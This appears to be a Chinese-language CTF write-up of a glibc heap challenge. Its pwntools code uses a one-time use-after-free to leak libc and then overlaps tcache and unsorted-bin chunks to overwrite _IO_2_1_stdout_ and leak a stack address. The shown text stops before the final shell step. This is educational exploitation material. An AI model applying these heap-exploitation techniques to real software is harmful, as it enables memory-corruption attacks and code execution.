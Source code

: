 ### 分析：

1. 主要看show函数和提供的一次性UAF函数，show函数只能够使用一次，即只能泄漏一次地址：

   ![image-20240722151423924](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407221514041.png)

2. 提供的后门函数中，有一次性UAF，只能使用一次：

   ![image-20240722151547969](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407221515065.png)

### 利用：

1. 先利用一次性UAF和show函数泄漏libc地址：

   ```python
   # 溢出进unsortedbin
   for i in range(9):
       add(0x80,b'a')
   for i in range(7):
       free(i)
   add(0x38,b'a')  #0
   
   backdoor(8)
   show(8)
   p.recv()
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = 0x1EbB80
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x60)
   success("libc_addr==>"+hex(libc_base))
    
   #计算environ地址
   system_addr = libc_base+libc.sym["system"]
   sh_addr = libc_base + next(libc.search(b"/bin/sh"))
   environ_addr = libc_base+libc.sym["environ"]
   pop_rdi_ret = libc_base + next(libc.search(asm('pop rdi;ret;')))
   success("system_addr==>"+hex(system_addr))
   success("environ_addr==>"+hex(environ_addr))
   success("bin_sh_addr==>"+hex(sh_addr))
   success("pop_rdi_ret==>"+hex(pop_rdi_ret))
   ```

2. 然后，利用之前UAF进入unsortedbin的chunk，再次将其释放进入tcache（先在tcache中清理出来一个空间），此时**tcache被放满**，且UAF的块已经形成double free，继续申请到unsortedbin中的chunk，直到覆盖掉tcache中的next指针位置，现在可以控制next指针，实现任意地址分配：

   ```python
   # 实现overlaping，将一个堆块一次放入tcache，一次放入unsortedbin
   # 在通过overlaping申请unsortedbin中的chunk，覆盖到tcache中的next指针
   free(7)         #与目标堆块合并,后续申请更大的堆块时覆盖到目标堆块的next指针
   add(0x80,b"a")  #1 tcache腾出一个位置.后续放目标堆块
   free(8)         #目标堆块进入unsortedbin,目标堆块要选择高地址的chunk
   
   
   add(0x68,b"a")  	#2 在unsortedbin中申请chunk,实现overlaping
   payload = p64(0)*(3)+p64(0x91)+p64(IO_2_1_stdout_addr)
   add(0x68,payload)   #3 一次申请unsortedbin覆盖不到next指针,所以分两次申请
   add(0x80,b"a")  	#4 目标bin
   #修改IO_2_1_stdout_addr结构体
   payload = p64(0xfbad1800)+p64(0)*3+p64(environ_addr)+p64(environ_addr+8)*2
   add(0x80,payload)  	#5 任意地址分配到chunk IO_2_1_stdout_addr，并修改
   heap_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("heap_addr==>"+hex(heap_addr))	#泄漏栈地址
   
   ```
   